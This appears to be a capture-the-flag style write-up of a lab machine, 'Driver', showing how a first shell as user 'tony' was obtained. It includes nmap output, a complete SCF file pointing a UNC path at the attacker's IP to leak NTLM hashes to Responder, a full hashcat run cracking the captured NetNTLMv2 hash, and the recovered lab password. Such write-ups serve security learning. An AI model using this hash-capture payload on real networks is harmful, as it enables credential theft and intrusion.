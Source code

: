 #  Initial shell as 'tony' user
## From [[Driver/10 - Common Enumeration]] it is discovered that SMB signing is disabled
From [[Driver/10 - Common Enumeration]] it is discovered that SMB signing is disabled.
```bash
Host script results:
|_clock-skew: mean: 6h59m29s, deviation: 3s, median: 6h59m26s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.10:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-10-04T17:41:25
|_  start_date: 2021-10-04T14:45:24

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   213.88 ms 10.10.14.1
2   213.94 ms 10.10.11.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.56 seconds
```
Also from crackmapexec,
![[Pasted image 20211007183540.png]]
## If SMB signing is disabled we can do NTLM relay attack
If SMB signing is disabled we can do NTLM relay attack to get user hash.To perform this attack we will first start `responder` tool  and on http://10.10.11.106/fw_up.php we will upload Shell Command File with extention `.scf` file with following contents.
```bash
[Shell]

Command=2

IconFile=\\10.10.14.98\share\dfsdfsdf.scf # IP address with which responder is started

[Taskbar]

Command=ToggleDesktop
```
Note: SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share as explained in [link](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/). ONLY `.scf` FILE WILL WORK IN THIS CASE.
As soon as we upload a `.scf.` with  filename starting from `@` (so that file is placed first in folder and executed as soon as it is uploaded).
## Uploading `.scf` to get NTLM Hash via responder
Uploading `.scf` to get NTLM Hash via responder listening via command ` sudo responder -I tun0 -wrf`.
![[Pasted image 20211007185038.png]]
## Cracking this hash via hashcat
```bash
~/Dropbox/Documents/htb/boxes/driver ❯ hashcat -m 5600  --force hash.hash /home/kali/Dropbox/Documents/htb/boxes/compromised/rockyou.txt
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-4460  CPU @ 3.20GHz, 5716/5780 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /home/kali/Dropbox/Documents/htb/boxes/compromised/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

TONY::DRIVER:c61fbe0c35b5c167:03be8d54cb224656162cfdd067b82a04:010100000000000032b8dcee79bbd7019a63b0aca1ef19a100000000020000000000000000000000:liltony

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: TONY::DRIVER:c61fbe0c35b5c167:03be8d54cb224656162cf...000000
Time.Started.....: Thu Oct  7 10:56:54 2021, (1 sec)
Time.Estimated...: Thu Oct  7 10:56:55 2021, (0 secs)
Guess.Base.......: File (/home/kali/Dropbox/Documents/htb/boxes/compromised/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   484.2 kH/s (3.49ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 32768/14344385 (0.23%)
Rejected.........: 0/32768 (0.00%)
Restore.Point....: 28672/14344385 (0.20%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: softball27 -> eatme1

Started: Thu Oct  7 10:56:32 2021
Stopped: Thu Oct  7 10:56:56 2021
```
cracked hash `TONY::DRIVER:c61fbe0c35b5c167:03be8d54cb224656162cfdd067b82a04:010100000000000032b8dcee79bbd7019a63b0aca1ef19a100000000020000000000000000000000:liltony`
which password `liltony`.
## Getting shell as tony via evil-winrm
![[Pasted image 20211007185353.png]]


